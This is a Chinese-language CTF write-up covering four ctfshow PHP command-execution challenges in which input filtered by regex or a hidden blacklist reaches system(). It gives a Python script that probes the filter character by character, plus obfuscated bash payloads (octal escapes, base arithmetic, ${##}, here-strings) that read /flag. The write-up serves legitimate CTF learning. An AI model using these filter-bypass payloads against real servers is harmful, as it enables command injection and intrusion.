# PHP RCE 限制绕过

这周做了一些php命令执行的题目，(主要又是学习PHP编程语言啦)

## ctfshow_极限命令执行1 


```bash
 <?php
error_reporting(0);
highlight_file(__FILE__);

if (isset($_POST['ctf_show'])) {
    $ctfshow = $_POST['ctf_show'];
    if (!preg_match("/[b-zA-Z_@#%^&*:{}\-\+<>\"|`;\[\]]/",$ctfshow)){
            system($ctfshow);
        }else{
            echo("????????");
        }
}
?> 
```

主要是preg_match正则检测字符串，不允许了所有字母和很多字符

然后如果通过了检测，将内容传给system()

system()是一个非常危险的函数，它直接把传入的内容

交给shell来处理

现在我们能够使用的符号包含全部数字 \ ' $

这里可以使用`$' '` `$' '`是ANSI‑C引号

可以把引号内的反斜线转义序列展开为对应字节和字符

\NNN是八进制 \xNN是十六进制 \n回车

根据题目提示`//flag在根目录flag里，或者直接运行根目录getflag`

可以直接运行/getflag

然后再用八进制转义

```bash
ctf_show=$'\057\147\145\164\146\154\141\147'
```

运行/getflag



获取flag

 ctfshow{61015891-6230-4798-b3f4-00fea7f7a3cd}  

## ctfshow_极限命令执行2


```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include "check.php";

if (isset($_POST['ctf_show'])) {
  $ctfshow = $_POST['ctf_show'];
  check($ctfshow);
  system($ctfshow);
}
  ?> 
```

这题就直接把过滤隐藏了😭

查看check.php也没有回显

怎么办呢

但是我发现 ! 只要触发过滤就会回显六个问号

于是编辑以下文字发给copilot🥰

> 我发现只要触发过滤了就会返回??????
>
> 但是没有的话就不会，写一个python脚本对靶机
>
> [https://1292cf31-5941-4e06-b43a-3f8b38376cc2.challenge.ctf.show/](https://1292cf31-5941-4e06-b43a-3f8b38376cc2.challenge.ctf.show/)
>
> 发送post请求，单次只请求一个字符，
>
> 请求所有对我们rce有用的字符，来试出来它的过滤名单
>

```python
#!/usr/bin/env python3
# probe_chars.py
# 对指定靶机逐个发送可打印 ASCII 字符作为 ctf_show，并判断响应是否包含连续问号来判定是否被过滤。

import requests
import string
import time
import re
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# 目标 URL（请按需修改）
URL = "https://dfebf7bf-e99c-468f-b0f9-998795ea8039.challenge.ctf.show/"

# 可打印 ASCII 范围 32-126
chars = [chr(i) for i in range(32, 127)]
blocked = []
allowed = []
q_re = re.compile(r"\?{4,}")  # 出现 4 个或以上问号则判定为被过滤（与题目行为一致）

for ch in chars:
    disp = repr(ch)
    try:
        r = requests.post(URL, data={"ctf_show": ch}, timeout=10, verify=False)
        body = r.text or ""
    except Exception as e:
        print(f"{disp}: ERROR {e}", file=sys.stderr)
        continue

    if q_re.search(body):
        blocked.append(ch)
        print(f"{disp} => BLOCKED")
    else:
        allowed.append(ch)
        print(f"{disp} => ALLOWED")
    time.sleep(0.15)

print("\nSummary:")
print("Blocked chars:", "".join(blocked))
print("Allowed chars:", "".join(allowed))

```

然后让他直接写入到文件



运行结果 



~~🥰🥰🥰~~~~copilot真好用mio已经变成copilot的形状惹~~

然后这道题依旧可以使用ANSI‑C引号转义，pyload和上题一模一样

```python
ctf_show=$'\057\147\145\164\146\154\141\147'
```



 ctfshow{2445c08d-21b7-4933-b3a3-05cac024f4ae}  

## ctfshow_极限命令执行3


```php
<?php
  //本题灵感来自研究一直没做出来的某赛某题时想到的姿势，太棒啦~。
  //flag在根目录flag里

  error_reporting(0);
highlight_file(__FILE__);
include "check.php";

if (isset($_POST['ctf_show'])) {
  $ctfshow = $_POST['ctf_show'];
  check($ctfshow);
  system($ctfshow);
}
  ?> 
```

依旧没有公布过滤规则。

但是和上道题过滤时回显一样

改上个python脚本的url来测试



测试的结果

禁止了好多其他的数字

10可以用，但是10很难在这里面转化成其他数字

$((2#111))转化二进制为十进制数字，但是2被禁止了

$((1+1))尝试运算但是加号不能用

查阅资料获得还有移位运算$((1<<1))

$((1<<1))=2

$(($((1<<1))#111))现在已经可以用10表示任何数字了

然后再使用ANSI‑C引号加转义序列

那cat /flag第一个字母c 8进制ascaii是143

用$(($((1<<1))#10001111))可以表示出143



那照例说$'\$(($((1<<1))#10010111))'应该就是字母c



但是并不是

查阅资料，这里要一直用\来转义

```bash
$\'\\$(($((1<<1))#10001111))\'
```

才是$'\151'

但是shell不认



但是在Bash和zsh等shell里

有一种语法叫做here-string语法

写作<<< 会把后面的内容作为前面的命令的输入

同时，$0为当前的shell

于是

```bash
$0<<<$\'\\$(($((1<<1))#10001111))\'
```



接着继续打印！

先把字符转化成八进制，再把转化的八进制**当作10进制**转化为为2进制


```bash
$0<<<$\'\\$(($((1<<1))#10001111))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10100100))\'
```



这时候已经可以执行cat了

```bash
$0<<<$\'\\$(($((1<<1))#10001111))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10100100))\\$(($((1<<1))#101000))\\$(($((1<<1))#111001))\\$(($((1<<1))#10010010))\\$(($((1<<1))#10011010))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10010011))\'
```

~~手动转ascii转了好久。。。~~~~😭~~



但是不行，这里把这些内容当作要传入bash的参数了

可以再在前面使用一次$0<<<(注意转义)

```bash
$0<<<$0\<\<\<$\'\\$(($((1<<1))#10001111))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10100100))\\$(($((1<<1))#101000))\\$(($((1<<1))#111001))\\$(($((1<<1))#10010010))\\$(($((1<<1))#10011010))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10010011))\'
```



完全正确的命令!

```bash
ctf_show=$0<<<$0\<\<\<$\'\\$(($((1<<1))#10001111))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10100100))\\$(($((1<<1))#101000))\\$(($((1<<1))#111001))\\$(($((1<<1))#10010010))\\$(($((1<<1))#10011010))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10010011))\'
```



 ctfshow{4522acea-8a42-4751-9832-b1a19c93271a}  

## ctfshow_极限命令执行4 


```php
<?php
  //本题灵感来自研究一直没做出来的某赛某题时想到的姿势，太棒啦~。
  //flag在根目录flag里

  error_reporting(0);
highlight_file(__FILE__);
include "check.php";

if (isset($_POST['ctf_show'])) {
  $ctfshow = $_POST['ctf_show'];
  check($ctfshow);
  system($ctfshow);
}
  ?> 
```

一样，先用脚本试

只有0没有1。

~~哇成都~~

把1拼出来就行了

 ${##}=1



手动把1改成${##}....

```bash
$0<<<$0\<\<\<$\'\\$(($((${##}<<${##}))#${##}000${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}000${##}${##}0${##}))\\$(($((${##}<<${##}))#${##}0${##}00${##}00))\\$(($((${##}<<${##}))#${##}0${##}000))\\$(($((${##}<<${##}))#${##}${##}${##}00${##}))\\$(($((${##}<<${##}))#${##}00${##}00${##}0))\\$(($((${##}<<${##}))#${##}00${##}${##}0${##}0))\\$(($((${##}<<${##}))#${##}000${##}${##}0${##}))\\$(($((${##}<<${##}))#${##}00${##}00${##}${##}))\'
```



本地尝试完全正确

```bash
ctf_show=$0<<<$0\<\<\<$\'\\$(($((${##}<<${##}))#${##}000${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}000${##}${##}0${##}))\\$(($((${##}<<${##}))#${##}0${##}00${##}00))\\$(($((${##}<<${##}))#${##}0${##}000))\\$(($((${##}<<${##}))#${##}${##}${##}00${##}))\\$(($((${##}<<${##}))#${##}00${##}00${##}0))\\$(($((${##}<<${##}))#${##}00${##}${##}0${##}0))\\$(($((${##}<<${##}))#${##}000${##}${##}0${##}))\\$(($((${##}<<${##}))#${##}00${##}00${##}${##}))\'
```



 ctfshow{47e4c991-24f3-4bfc-aa07-d32a97a93c95}  

